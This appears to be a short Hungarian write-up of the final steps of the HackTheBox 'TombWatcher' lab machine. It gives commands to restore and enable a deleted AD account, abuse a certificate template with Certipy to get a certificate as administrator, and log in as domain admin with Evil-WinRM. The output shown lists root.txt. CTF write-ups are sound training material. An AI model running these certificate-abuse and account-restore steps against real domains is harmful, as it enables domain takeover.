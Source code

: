 ## AD object restore
```
Get-ADObject -filter {SamAccountName -eq 'cert_admin'} -IncludeDeletedObjects
Restore-ADObject -Identity <GUID>
Enable-ADAccount -Identity cert_admin
```

## Certipy admin cert szerzés (régi pip-es):
```
python3 entry.py req -dc-ip 10.10.11.72 -ca tombwatcher-CA-1 -u cert_admin@tombwatcher.htb -p 'NoSecHere' -template WebServer -upn administrator@tombwatcher.htb -application-policies 1.3.6.1.5.5.7.3.2
```

## Evil-WinRM shell DA-ként
```
evil-winrm -i 10.10.11.72 -u administrator -p NoSecHere

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/13/2025   7:13 AM             34 root.txt

```

---

## Ez volt a TombWatcher gép! Ha végigtoltad, instant respect! 👾

